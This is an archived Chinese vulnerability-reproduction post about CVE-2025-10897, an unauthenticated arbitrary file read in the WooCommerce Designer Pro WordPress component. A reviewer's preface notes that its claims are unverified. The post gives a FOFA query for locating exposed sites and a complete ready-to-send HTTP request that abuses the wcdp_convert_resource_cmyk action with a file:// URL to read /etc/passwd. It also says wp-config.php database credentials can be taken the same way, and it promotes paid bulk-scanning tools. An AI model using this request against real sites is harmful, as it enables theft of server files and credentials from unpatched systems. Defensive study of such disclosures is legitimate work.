




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.9.28 claimed; unauth wcdp_convert_resource_cmyk; file:// enabled and filesystem readable

- **结论使用边界（1）**：正文叫主题而命名WooCommerce扩展，应核实际组件类型；影响栏又只WordPress过泛。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：请求读/etc/passwd与返回base64描述清楚，但截图无可检索响应、无源码/官方公告。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（3）**：任意文件受进程权限限制，Windows目标不适用此路径；未注明配置条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **来源与引用处置（4）**：Content-Length硬编码需重算，修复只最新版无安全版本，营销较多。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  WordPress WooCommerce Designer Pro存在任意文件读取CVE-2025-10897 附POC  
2026-4-30更新
                    2026-4-30更新  南风漏洞复现文库   2026-04-30 15:38  
  
   
  
#   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. WordPress 简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
本人只有 南风漏洞复现文库 和 南风网络安全  
 这两个公众号，其他公众号有意冒充，请注意甄别，避免上当受骗。  
  
WordPress  
## 2.漏洞描述  
  
WordPress中的WooCommerce Designer Pro主题在直至并包括1.9.28的所有版本中均存在任意文件读取漏洞。这使得未经身份验证的攻击者能够读取服务器上的任意文件，当读取wp-config.php文件时，可能会暴露数据库凭据。  
  
CVE编号:CVE-2025-10897  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
WordPress  
  
  
WordPress WooCommerce Designer Pro存在任意文件读取  
## 4.fofa查询语句  
  
body="wc-designer-pro"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/wp-admin/admin-ajax.php  
  
漏洞数据包：  
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh, Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.3.1 Safari/605.1.15
Connection: close
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

action=wcdp_convert_resource_cmyk&url=file:///etc/passwd
```  
  
  
  
  
返回是passwd文件的base64编码  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
5: Nuclei脚本。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
## 8.往期回顾  
  
  
   
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
